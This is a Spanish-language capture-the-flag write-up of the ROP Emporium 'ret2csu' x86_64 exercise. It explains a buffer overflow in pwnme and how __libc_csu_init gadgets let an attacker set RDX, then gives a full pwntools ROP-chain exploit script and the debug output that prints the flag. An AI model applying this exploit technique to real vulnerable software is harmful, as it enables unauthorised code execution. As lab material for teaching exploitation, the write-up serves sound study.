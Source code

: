 # 8. Ret2csu (x86\_64)

Este ejercicio es como el [callme](3.-callme-x86_64.md) pero sin tener que hacer saltos a 3 funciones. Simplemente hay que hacer un salto a la función `ret2win`. Vamos a intentarlo para ver cual es el muro que tenemos ahora:

```c
undefined8 main(void)
{
    pwnme();
    return 0;
}
```

```c
void pwnme(void)
{
    undefined array[32];

    setvbuf(stdout, (char *)0x0, 2, 0);
    puts("ret2csu by ROP Emporium");
    puts("x86_64\n");
    memset(array, 0, 0x20);
    puts(
        "Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n"
    );
    printf("=> ");
    read(0, array, 0x200); // Buffer Overflow
    puts("Thank you!");
    return;
}

```

Como podemos ver la función `pwnme` tiene un buffer overflow con mucha capacidad, lo cual nos da la capacidad de hacer una rop chain larga. Vamos a observar ahora la función `ret2win`:

```c
void ret2win(long param_1, long param_2, long param_3)
{
. . .
    if (((param_1 != -0x2152411021524111) || (param_2 != -0x3501454135014542)) || (param_3 != -0x2ff20ff22ff20ff3)) {
        puts("Incorrect parameters");
        exit(1);
    }
}
. . .
```

Como en el [callme](3.-callme-x86_64.md), este ejercicio pide 3 argumentos para que nos imprima la flag (`RDI`, `RSI` y `RDX`):

Vamos a buscar gadgets para poner esos registros con los valores que necesitamos:

```c
0x004006a3 : pop rdi ; ret // RDI
0x004006a1 : pop rsi ; pop r15 ; ret // RSI
```

Hay un problema, no hay ningún `pop rdx`. Aquí está la nueva dificultad del ejercicio. Para solucionarlo tenemos que, tal como da a entender el nombre del ejercicio, usar la función `__libc_csu_init`, que se genera automáticamente al compilar un programa y siempre mete un par de gadgets bastante útiles: uno para hacer varios `pop` seguidos y otro que hace `mov rdx, r15; mov rsi, r14; mov edi, r13d; call [r12+rbx*8]`. Con esto podemos setear `rdx` aunque no haya un `pop rdx` normal, y así pasar todos los argumentos que necesitamos. Vamos a usar la siguiente examen como referencia:

<figure><img src="../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

Como podemos ver podemos llamar primero al gadget 1 para setear varis registros que luego en el gadget 2 lo moverán a los registros que nos hacían falta. tenemos que tener en cuenta que en el gadget 2 hay un call así que tenemos que intentar que esto:

```c
400689:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
```

De como resultado una función que nos haga un return y que no nos altere ningún registro importante. Otra cosa a tener en cuenta es que en el gadget 1 hay que poner que el `rbx` sea el valor de `rbp - 1` ya que el gadget tiene estas lineas:

```c
  400691:	48 39 dd             	cmp    rbp,rbx
  400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
```

Entonces si no se cumple eso hará un salto a otra función y no queremos eso. Tenemos que tener en cuenta también que en la segunda pasada se volverán a hacer los pops así que tenemos que popear 7 veces algo, 6 veces por los `pop` y 1 vez por el `add`. Ahora que sabemos esto podemos preparar el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./ret2csu")
libc = ELF("./libret2csu.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b 400696
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    pop_rdi = 0x004006a3 # pop rdi ; ret
    mov_long = 0x400680
    pop_rbx_rbp_r12_r13_r14_r15 = 0x40069a
    pop_rsi_r15 = 0x004006a1 # pop rsi ; pop r15 ; ret
    
    parametros = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]
    
    # 400680:	4c 89 fa             	mov    rdx,r15
    # 400683:	4c 89 f6             	mov    rsi,r14
    # 400686:	44 89 ef             	mov    edi,r13d
    # 400689:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
    # 40068d:	48 83 c3 01          	add    rbx,0x1
    # 400691:	48 39 dd             	cmp    rbp,rbx
    # 400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
    # 400696:	48 83 c4 08          	add    rsp,0x8
    # 40069a:	5b                   	pop    rbx
    # 40069b:	5d                   	pop    rbp
    # 40069c:	41 5c                	pop    r12
    # 40069e:	41 5d                	pop    r13
    # 4006a0:	41 5e                	pop    r14
    # 4006a2:	41 5f                	pop    r15
    # 4006a4:	c3                   	ret
    
    # Contents of section .init_array:
    # 600df0 00064000 00000000

    offset = 40
    
    payload = flat({
        offset: [
            pop_rbx_rbp_r12_r13_r14_r15, 0, 1, 0x600df0, 0x0, parametros[1], parametros[2],
            mov_long, 0, 0, 0, 0, 0, 0, 0,
            pop_rdi, parametros[0],
            pop_rsi_r15, parametros[1], 0,
            exe.plt['ret2win'],
        ]
    })


    io.sendlineafter(b'>', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/ret2csu/ret2csu': pid 822203
[DEBUG] Received 0x8c bytes:
    b'ret2csu by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n'
    b'\n'
    b'> '
[DEBUG] Sent 0xd1 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  9a 06 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  00 00 00 00  00 00 00 00  01 00 00 00  00 00 00 00  │····│····│····│····│
    00000040  f0 0d 60 00  00 00 00 00  00 00 00 00  00 00 00 00  │··`·│····│····│····│
    00000050  be ba fe ca  be ba fe ca  0d f0 0d d0  0d f0 0d d0  │····│····│····│····│
    00000060  80 06 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000a0  a3 06 40 00  00 00 00 00  ef be ad de  ef be ad de  │··@·│····│····│····│
    000000b0  a1 06 40 00  00 00 00 00  be ba fe ca  be ba fe ca  │··@·│····│····│····│
    000000c0  00 00 00 00  00 00 00 00  10 05 40 00  00 00 00 00  │····│····│··@·│····│
    000000d0  0a                                                  │·│
    000000d1
[*] Switching to interactive mode
 [*] Process '/home/ub1cu0/Desktop/ropEmporium/ret2csu/ret2csu' stopped with exit code 0 (pid 822203)
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona! Gracias por leer!
